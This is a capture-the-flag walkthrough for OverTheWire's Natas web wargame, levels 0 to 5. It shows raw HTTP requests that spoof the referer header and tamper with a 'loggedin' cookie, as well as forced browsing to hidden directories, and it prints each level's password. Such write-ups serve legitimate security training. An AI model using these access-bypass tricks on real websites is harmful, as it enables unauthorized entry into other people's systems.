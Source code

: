 # Natas game modules 0-5

#### 1. **Natas0 \[natas0:natas0\]**

     URL:[http://natas0.natas.labs.overthewire.org/](http://natas1.natas.labs.overthewire.org/)

     Navigate to URL using the credentials renders a web page. Looking at the page source show the following code which contains password for Natas1.

`<html>`

`<head>`

`<!-- This stuff in the header has nothing to do with the level -->`

`<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">`

`<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />`

`<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />`

`<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>`

`<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>`

`<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>`

`<script>var wechallinfo = { "level": "natas0", "pass": "natas0" };</script></head>`

`<body>`

`<h1>natas0</h1>`

`<div id="content">`

`You can find the password for the next level on this page.`

``

**`<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->`**

`</div>`

`</body>`

`</html>`

---

#### 2. Natas1 \[natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto\]

URL:[http://natas1.natas.labs.overthewire.org/](http://natas1.natas.labs.overthewire.org/)

Navigating the URL show the page as below:

![](/assets/natas1.png)

But we can see the page source from proxy tool like Burp Suite which shows the password for Natas2 as below:

`<h1>natas1</h1>`

`<div id="content">`

`You can find the password for the`

`next level on this page, but rightclicking has been blocked!`

`<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->`

`</div>`

`</body>`

`</html>`

---

#### 3. Natas2 \[natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi\]

URL:[http://natas2.natas.labs.overthewire.org/](http://natas2.natas.labs.overthewire.org/)

![](/assets/natas2.png)

The page source shows the directory named as 'files'. Navigating the files folder shows the file with name 'users.txt'. Clicking on the users file reveals the password for Natas3.

http://natas2.natas.labs.overthewire.org/files/users.txt

`# username:password `

`alice:BYNdCesZqW `

`bob:jw2ueICLvT `

`charlie:G5vCxkVV3m `

**`natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14`**` `

`eve:zo4mJWyNj2 `

`mallory:9urtcpzBmH `

---

#### 4. Natas3 \[natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14\]

URL: http://natas3.natas.labs.overthewire.org/

Navigating to URL show the page source as below. 

&lt;h1&gt;natas3&lt;/h1&gt;

&lt;div id="content"&gt;

There is nothing on this page

&lt;!-- No more information leaks!! Not even Google will find it this time... --&gt;

&lt;/div&gt;

&lt;/body&gt;&lt;/html&gt;

Based on the hint 'Not even Google will find it this time', searched for natas3 in google reveals the folder 's3cr3t' as below:

![](/assets/natas3.png)



Navigating to new folder shows the file 'users.txt' which inturn reveals the password for natas4 as below: http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt

**`natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ`**

---

#### 5. Natas4 \[natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ\]

URL: [http://natas4.natas.labs.overthewire.org/](http://natas4.natas.labs.overthewire.org/)

Navigating to URL shows the web page as below:

![](/assets/natas4.png)

Based on the hint shown on the page 'while authorized users should come only from "[http://natas4.natas.labs.overthewire.org/](http://natas4.natas.labs.overthewire.org/)"',  added referer header through Burp Suite proxy as below:

`GET / HTTP/1.1`

`Host: natas4.natas.labs.overthewire.org`

`User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0`

`Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8`

`Accept-Language: en-US,en;q=0.5`

`Cookie: __cfduid=d7ce1c5bbe6df2931caac6d36bf060f851513884420; __utma=176859643.1738819372.1513884442.1513884442.1513884442.1; __utmb=176859643.3.10.1513884442; __utmc=176859643; __utmz=176859643.1513884442.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none)`

**`Referrer: http://natas5.natas.labs.overthewire.org/`**

`Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va`

`Connection: close`

`Upgrade-Insecure-Requests: 1`

`Cache-Control: max-age=0`

Then web page shows the password for natas5 as below:

![](/assets/natas4-1.png)



---

#### 6. Natas5 \[natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq\]

URL: [http://natas5.natas.labs.overthewire.org/](http://natas5.natas.labs.overthewire.org/)

Navigating to URL shows the page as below.

![](/assets/natas5.png)

Based on the message shown on the web page, looking at response headers shows that a cookie 'loggedin' is set to value 0. Refresh the page and change the value of cookie value as 'loggedin=1' shows the page with password for natas6.

`GET / HTTP/1.1`

`Host: natas5.natas.labs.overthewire.org`

`User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0`

`Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8`

`Accept-Language: en-US,en;q=0.5`

`Cookie: __cfduid=d7ce1c5bbe6df2931caac6d36bf060f851513884420; __utma=176859643.1738819372.1513884442.1513884442.1513884442.1; __utmc=176859643; __utmz=176859643.1513884442.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); loggedin=1`

`Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx`

`Connection: close`

`Upgrade-Insecure-Requests: 1`

`Cache-Control: max-age=0`



![](/assets/natas5-1.png)

`natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1`

